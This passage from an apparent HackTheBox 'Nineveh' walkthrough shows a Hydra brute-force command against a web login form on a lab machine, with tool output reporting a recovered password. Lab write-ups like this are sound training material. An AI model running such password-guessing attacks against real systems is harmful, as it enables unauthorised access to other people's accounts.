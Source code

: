 ```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Nineveh]
└─# hydra -l shiro -P /usr/share/wordlists/rockyou.txt 10.10.10.43 -s 443 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password" -t 64
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-28 21:26:35
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
[443][http-post-form] host: 10.10.10.43   login: shiro   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-28 21:26:51
```

Yay! We found the password. Lets log in~

![phpliteadmin_login](phpliteadmin_login.png)
